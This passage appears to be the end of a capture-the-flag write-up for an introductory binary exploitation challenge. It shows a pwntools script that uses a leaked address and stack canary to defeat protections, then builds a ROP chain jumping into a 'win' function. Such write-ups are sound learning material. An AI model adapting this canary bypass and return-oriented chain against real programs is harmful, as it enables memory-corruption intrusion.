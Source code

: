 ```python
base = int(leak[8:],16) - 0x10 - (binary.sym['vuln'] - binary.address) 

log.info(f"leak: {leak}")
log.info(f"canary: {hex(canary)}")
log.info(f"base addr: {hex(base)}")

# set base address
binary.address = base
win = binary.sym['win']
func1 = binary.sym['func1']

rop = ROP(binary)
rop.raw(b"A" * canary_offset)
rop.raw(p32(canary))
rop.raw(b"A" * (offset-canary_offset-4))
rop.raw(p32(func1))
rop.raw(p32(win+73))       # jump into win past the checks, dont care if they work.
rop.raw(p32(0xdeadbeef) * 4)
p.sendline(rop.chain())
p.interactive()
```

Which worked and wrapped up the final Intro to PWN challenge.

A lot of fun and revision for me. Thanks!



